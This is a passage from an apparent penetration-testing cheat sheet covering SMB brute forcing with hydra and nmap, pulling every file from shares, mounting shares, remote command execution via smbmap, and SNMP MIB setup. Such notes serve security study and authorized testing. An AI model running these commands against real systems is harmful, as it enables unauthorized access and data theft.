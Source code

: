 ```
client min protocol = CORE
client max protocol = SMB3
```

Or you can add the flags `-m SMB2` or `-m SMB3` to your invocation of `smbclient` on the command line. However, this 2nd method does not apply to other tools like `enum4linux`

### 4.11.1. SMB Bruteforcing

```sh
nmap --script smb-brute -p 445 $VICTIM_IP
hydra -V -f -l Administrator -P passwords.txt -t 1 $VICTIM_IP smb
```

### 4.11.2. Interacting with SMB

```sh
# tar all files [under a directory (no trailing slash on path)]
smbclient //10.10.10.123/SHARENAME -N -Tc smbfiles.tar [/PATH/TO/DIR]

# recursively get all files (interactive session)
smbclient //$VICTIM_IP/SHARENAME
> mask "" # don't filter any file names
> recurse on # recursively execute commands
> prompt off # don't prompt for file names
> mget * # copy all files matching mask to host

# Interactive smb shell with creds
smbclient '\\TARGET_IP\dirname' -W DOMAIN -U username[%password]
# add --pw-nt-hash to tell it to interpret password as NT hash (don't include LM portion)

smb:\> help  # displays commands to use
smb:\> ls  # list files
smb:\> get filename.txt  # fetch a file

# mount smb share
mount -t cifs -o "username=user,password=password" //x.x.x.x/share /mnt/share

# try executing a command using wmi (can try psexec with '--mode psexec')
smbmap -x 'ipconfig' $VICTIM_IP -u USER -p PASSWORD
```

## 4.12. 161,162,10161,10162 - SNMP

Simple Network Management Protocol (SNMP).

Before getting started, install the MIBs:

```sh
sudo apt install -y snmp snmp-mibs-downloader
sudo download-mibs
```

For resolving further issues with MIBs, see [Using and loading MIBs](https://net-snmp.sourceforge.io/wiki/index.php/TUT:Using_and_loading_MIBS)


[cve2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744